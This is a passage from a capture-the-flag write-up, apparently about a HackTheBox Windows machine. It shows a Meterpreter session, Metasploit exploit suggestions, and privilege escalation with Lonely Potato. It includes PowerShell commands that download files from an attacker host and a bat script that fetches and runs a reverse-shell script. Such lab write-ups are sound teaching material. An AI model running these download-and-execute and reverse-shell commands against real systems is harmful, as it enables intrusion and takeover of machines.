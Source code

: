 

    [*] Sending stage (206403 bytes) to 10.10.10.93
    [*] Meterpreter session 1 opened (10.10.14.5:445 -> 10.10.10.93:49198) at 2018-10-26 15:51:15 -0400

    meterpreter > getuid
    Server username: BOUNTY\merlin



Now, I'll background that and use
`use post/multi/recon/local_exploit_suggester`, and see it gives a few
options (though not as many as Watson):



    msf post(multi/recon/local_exploit_suggester) > run

    [*] 10.10.10.93 - Collecting local exploits for x64/windows...
    [*] 10.10.10.93 - 18 exploit checks are being tried...
    [+] 10.10.10.93 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.10.93 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
    [+] 10.10.10.93 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
    [*] Post module execution completed



### Escalation Method 1: Lonely Potato

I'll grab a copy of the the [compiled lonelypotato
binary](https://github.com/decoder-it/lonelypotato/blob/master/RottenPotatoEXE/MSFRottenPotato.exe)
and upload it to target, along with a bat script that will start another
Nishang shell:



    PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/lonelypotato.exe', 'C:\users\merlin\appdata\local\temp\lp.exe')
    PS C:\users\merlin\appdata\local\temp> (new-object net.webclient).downloadfile('http://10.10.14.5/rev.bat', 'C:\users\merlin\appdata\local\temp\rev.bat')

    PS C:\users\merlin\appdata\local\temp> type rev.bat
    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')



Now run it, and get a shell:



    PS C:\users\merlin\appdata\local\temp> C:\users\merlin\appdata\local\temp\lp.exe * C:\users\merlin\appdata\local\temp\rev.bat
    CreateIlok: 0 0
    CreateDoc: 0 0
    connect sock
    start RPC  connection
    COM -> bytes received: 116
    RPC -> bytes Sent: 116
    RPC -> bytes received: 84
    COM -> bytes sent: 84
    COM -> bytes received: 24
    RPC -> bytes Sent: 24
    RPC -> bytes received: 136
    COM -> bytes sent: 136
    COM -> bytes received: 135
    RPC -> bytes Sent: 135
    RPC -> bytes received: 216
    COM -> bytes sent: 216
    COM -> bytes received: 158
    RPC -> bytes Sent: 158
    RPC -> bytes received: 56
    COM -> bytes sent: 56
